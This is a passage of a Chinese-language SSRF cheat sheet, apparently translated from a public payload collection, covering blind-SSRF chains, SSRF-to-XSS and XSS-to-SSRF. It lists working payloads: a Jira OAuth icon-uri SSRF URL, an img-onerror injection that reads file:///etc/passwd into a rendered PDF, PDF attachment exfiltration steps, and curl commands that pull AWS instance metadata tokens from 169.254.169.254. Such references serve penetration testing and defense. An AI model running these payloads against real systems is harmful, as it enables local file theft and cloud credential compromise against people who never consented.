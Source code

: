 - [W3 Total Cache](https://github.com/assetnote/blind-ssrf-chains#w3)
- [Docker](https://github.com/assetnote/blind-ssrf-chains#docker)
- [Gitlab Prometheus Redis Exporter](https://github.com/assetnote/blind-ssrf-chains#redisexporter)

**可能通过Gopher**

- [Redis](https://github.com/assetnote/blind-ssrf-chains#redis)
- [Memcache](https://github.com/assetnote/blind-ssrf-chains#memcache)
- [Apache Tomcat](https://github.com/assetnote/blind-ssrf-chains#tomcat)

## SSRF到XSS

作者：@D0rkerDevil & @alyssa.o.herrera https://medium.com/@D0rkerDevil/how-i-convert-ssrf-to-xss-in-a-ssrf-vulnerable-jira-e9f37ad5b158

```bash
http://brutelogic.com.br/poc.svg -> 简单警报
https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri= -> 简单SSRF

https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=http://brutelogic.com.br/poc.svg
```

## 通过XSS实现SSRF

### 使用iframe

文件内容将作为图像或文本整合到PDF中。

```html
<img src="echopwn" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
```

### 使用附件

使用HTML的PDF附件示例

1. 使用`<link rel=attachment href="URL">`作为个人简介文本
2. 使用'下载数据'功能获取PDF
3. 使用`pdfdetach -saveall filename.pdf`提取嵌入式资源
4. `cat attachment.bin`

## 针对云实例的SSRF URL

### AWS的SSRF URL

AWS实例元数据服务是一项在Amazon EC2实例中可用的服务，允许这些实例访问有关自身的元数据。- [文档](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories)

* IPv4端点（旧）：`http://169.254.169.254/latest/meta-data/`

* IPv4端点（新）需要`X-aws-ec2-metadata-token`头

  ```powershell
  $TOKEN=`curl -X PUT -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" "http://169.254.169.254/latest/api/token"`
  curl -H "X-aws-ec2-metadata-token:$TOKEN" -v "http://169.254.169.254/latest/meta-data"
  ```
